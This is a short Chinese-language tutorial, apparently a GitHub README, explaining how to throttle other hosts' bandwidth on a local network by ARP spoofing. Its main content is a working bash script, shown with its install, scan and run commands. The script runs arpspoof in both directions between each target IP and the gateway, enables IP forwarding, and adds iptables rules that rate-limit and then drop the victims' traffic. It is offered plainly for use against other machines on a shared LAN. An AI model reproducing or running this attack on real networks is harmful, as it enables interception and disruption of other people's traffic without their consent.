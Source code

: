 # linux下arp攻击之局域网限速
### 安装软件
```shell 
sudo apt-get install dsniff nmap
```
### 查看目标主机ip 
其中192.168.1.1为网关地址，如果你有其他方式可以获取目标主机ip ，可以不用这条命令
```
sudo nmap -ss 192.168.1.1/24
```
### 打开iptables转发开关

临时打开的方式：
```
sudo su
echo 1 >/proc/sys/net/ipv4/ip_forward
```

永久打开的方式：
```
编辑/etc/sysctl.conf文件，将net.ipv4.ip_forward=1前面的#注释去掉，保存文件，然后执行sudo sysctl -p使其生效
```

###创建shell脚本
```
#!/bin/bash
if [ $# -le 2 ]
then
    echo "Usage: ./iptables.sh speed gateway ip1 ip2 ...."
    exit -1
else
    speed=$1
    gateway=$2
fi
IPT=/sbin/iptables

while [ $# -gt 2 ]
do
    shift
    echo $gateway,$2
    arpspoof -i wlp3s0 -t $2 $gateway&
    arpspoof -i wlp3s0 -t $gateway $2&

    $IPT -A FORWARD -s $2  -m limit --limit ${speed}/s -j ACCEPT

    $IPT -A FORWARD -d $2  -m limit --limit ${speed}/s -j ACCEPT

    $IPT -A FORWARD -s $2  -j DROP

    $IPT -A FORWARD -d $2  -j DROP

done
```

###以ROOT权限运行之
```
sudo ./iptable.sh 10 192.168.1.1 192.168.1.100 192.168.1.101 
```
其中10为限制网速，192.168.1.1为网关地址，192.168.1.100为限速ip1,192.168.1.101为限速ip2 



